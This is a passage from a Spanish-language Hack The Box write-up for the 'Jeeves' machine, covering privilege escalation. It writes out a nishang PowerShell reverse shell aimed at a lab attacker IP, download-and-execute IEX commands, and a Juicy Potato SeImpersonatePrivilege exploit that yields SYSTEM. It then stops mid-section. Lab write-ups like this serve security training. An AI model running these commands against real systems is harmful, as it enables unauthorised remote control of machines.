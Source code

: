 
Antes de realizar la escalada de privilegios, realizaremos el mismo proceso anterior para obtener una reverse shell, pero en este caso, usaremos [nishang](https://github.com/samratashok/nishang) para obtener una consola PowerShell. Estos son los pasos:

* Clonar el repositorio ```git clone https://github.com/samratashok/nishang```
* Ir a *nishang/shells*, editar archivo ```Invoke-PowerShellTcp.ps1``` y añadir ```Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.19 -Port 8001``` al final del script.
* Mover el archivo a nuestro directorio de trabajo y renombrarlo como IPS.ps1.
* Montar un servidor web para compartir dicho archivo ```python3 -m http.server 80```.
* Ponernos a la escucha de tráfico a través del puerto 8001.
* Ejecutar nueva tarea de **Jenkins** para obtener consola Powershell.

```powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.6/IPS.ps1')```

![](/images/HTB/Jeeves/34-powershell-reverse.png)

![](/images/HTB/Jeeves/35-powershell-reverse.png)

### Reconocimiento

Ya en este punto, lo primero a realizar es un reconocimiento del sistema, para saber con que S.O. estamos tratando, que usuario somos y que permisos tenemos asignados.

* ```systeminfo```

![](/images/HTB/Jeeves/40-systeminfo.png)

* ```whoami /priv```

![](/images/HTB/Jeeves/45-whoami-priv.png)

Validamos que estamos en una máquina **Windows 10 Pro de 64 bits** y ésta mantiene el permiso ```SeImpersonatePrivilege``` habilitado. Sabiendo esto, podríamos intentar utilizar [Juicy Potato](https://github.com/ohpe/juicy-potato) para explotarlo.

### Explotación

Primero descargamos el binario de Juicy Potato desde [Releases](https://github.com/ohpe/juicy-potato/releases/tag/v0.1) y lo llevamos a la máquina víctima utilizando impacket.

![](/images/HTB/Jeeves/50-copy-juicy.png)

El binario se ha exportado a la ruta ```C:\Users\Public``` con el nombre de ```JP.exe```.

Reverse shell con **powershell**
* ```.\JP.exe -t * -l 1337 -p cmd.exe -a "/c powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.12/IPS.ps1')"```

Al igual que antes, compartiremos el archivo ```IPS.ps1``` con un servidor web en **python3**, previamente configurado para entablar una conexión hacia nuestra IP por el puerto 8002.

![](/images/HTB/Jeeves/55-admin-reverse.png)

Al obtener la consola, ya seríamos **NT AUTHORITY\SYSTEM**. Ahora solo restaría encontrar las flags, leer su contenido e ingresarlas en la plataforma de HTB.

## user.txt

Buscar archivos con **powershell**
* ```Get-ChildItem -Path C:\ -Recurse -Include user.txt```

![](/images/HTB/Jeeves/60-user.txt.png)

Variación para obtener la ruta completa del archivo.
```